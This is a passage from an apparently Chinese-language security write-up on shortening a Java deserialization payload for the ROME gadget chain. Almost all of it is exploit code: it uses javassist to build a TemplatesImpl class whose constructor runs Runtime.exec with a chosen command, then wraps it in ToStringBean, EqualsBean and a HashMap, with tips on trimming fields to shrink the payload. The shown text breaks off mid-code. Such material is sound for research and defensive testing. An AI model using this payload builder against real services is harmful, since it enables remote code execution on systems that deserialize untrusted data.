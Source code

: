 ```plain
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

然后我们就可以进行我们payload缩短了，首先注意几个赋值的地方：

*   TemplatesImpl.\_name的长度可以为1
*   TemplatesImpl.\_tfactory可以不用赋值
*   HashMap的value长度可以为1

```plain
package EXPROME;

import EXPShell.GetShellCode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class RomeEqualsShorter {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();
//        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\A.class"));
//        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());
        setValue(templatesimpl,"_name","a");
        setValue(templatesimpl,"_bytecodes",new byte[][] {genPayload("calc")});


        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean, "1");
```